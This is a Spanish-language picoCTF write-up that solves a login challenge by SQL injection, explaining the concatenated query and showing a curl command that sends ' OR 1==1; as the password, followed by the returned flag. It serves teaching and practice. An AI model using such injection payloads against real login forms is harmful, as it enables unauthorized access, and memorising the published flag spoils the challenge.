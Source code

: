 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
## Solución
Podemos observar que la página web realiza una verificación de una consulta SQL construida a manera de concatenación, por ejemplo si nosotros ingresamos
Usernam: Miguel
Password: Holamundo
El resultado de la ejecución concatenada sería
```sql
SELECT * FROM users WHERE name='Miguel' AND password='Holamundo'
```

Es aquí donde nos damos cuenta que cada consulta se construye a través de una página SQL, entonces, si nosotros ingresamos en la contraseña o el usuario un campo personalizado, por ejemplo ' OR '1 == 1; nosotros le indicamos a la consulta SQL que cualquier coincidencia es correcta, lo que automáticamente nos da acceso a el sitio.


```powershell
C:\Users\Miguel García>curl -s http://jupiter.challenges.picoctf.org:39720/login.php -d "username=admin&password=' OR 1==1;&debug=1"
<pre>username: admin
password: ' OR 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1==1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>
C:\Users\Miguel García>
```

## Bandera
picoCTF{s0m3_SQL_c218b685}
## Notas

## Referencias
https://en.wikipedia.org/wiki/SQL_injection